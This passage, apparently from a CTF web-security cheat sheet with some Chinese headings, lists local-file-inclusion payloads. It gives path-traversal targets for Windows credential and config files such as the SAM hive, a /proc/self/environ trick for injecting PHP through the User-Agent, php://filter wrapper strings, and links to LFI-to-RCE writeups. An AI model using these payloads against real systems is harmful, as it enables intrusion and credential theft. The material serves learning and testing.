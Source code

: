 
### Windows

- `C:/Windows/win.ini`
- `C:/boot.ini`
- `C:/apache/logs/access.log`
- `../../../../../../../../../boot.ini/.......................`
- `C:\Windows\System32\drivers\etc\hosts`
- `C:\WINDOWS\System32\Config\SAM`
- `C:/WINDOWS/repair/sam`
- `C:/WINDOWS/repair/system`
- `%SYSTEMROOT%\System32\config\RegBack\SAM`
- `%SYSTEMROOT%\System32\config\RegBack\system`
- `%WINDIR%\system32\config\AppEvent.Evt`
- `%WINDIR%\system32\config\SecEvent.Evt`
- `%WINDIR%\iis[version].log`
- `%WINDIR%\debug\NetSetup.log`
- `%SYSTEMDRIVE%\autoexec.bat`
- `C:\Documents and Settings\All Users\Application Data\Git\config`
- `C:\ProgramData\Git\config`
- `$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
- `C:\inetpub\temp\appPools\DefaultAppPool\DefaultAppPool.config`
- `C:\Windows\System32\inetsrv\config\ApplicationHost.config`
- `C:\WINDOWS\debug\NetSetup.log`
- `C:\WINDOWS\pfro.log`
- `C:\inetpub\temp\apppools\DefaultAppPool\DefaultAppPool.config`

## 環境變數

- `../../../../proc/self/environ`
    - HTTP_User_Agent塞php script

## php://filter

- `php://filter/convert.base64-encode/resource=index.php`
- `php://filter/convert.base64-decode/resource=index.php`
- `php://filter/read=string.rot13/resource=index.php`
- `php://filter/zlib.deflate/resource=index.php`
- `php://filter/zlib.inflate/resource=index.php`
- `php://filter/convert.quoted-printable-encode/resource=index.php`
- `php://filter/read=string.strip_tags/resource=php://input`
- `php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=index.php`
- `php://filter/convert.iconv.UCS-4LE.UCS-4BE/resource=index.php`
- ...
- 進階玩法
    - LFI RCE without controlling any file: https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT
    - Memory Limit Oracle to read local file: https://github.com/DownUnderCTF/Challenges_2022_Public/blob/main/web/minimal-php/solve/solution.py
    - Example:
        - [hxp ctf 2021 - includer's revenge](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d)
        - [CakeCTF 2022 - ImageSurfing](https://ptr-yudai.hatenablog.com/#ImageSurfing)
        - [DownUnderCTF 2022 - minimal-php](https://github.com/DownUnderCTF/Challenges_2022_Public/tree/main/web/minimal-php)
        - [blaklisctf - chall3](https://twitter.com/Blaklis_/status/1625918537813446656)
        - [HITCON CTF 2022 - web2pdf](https://blog.splitline.tw/hitcon-ctf-2022/)
        - [N1CTF 2023 - laravel](https://ctftime.org/writeup/38034)
## php://input
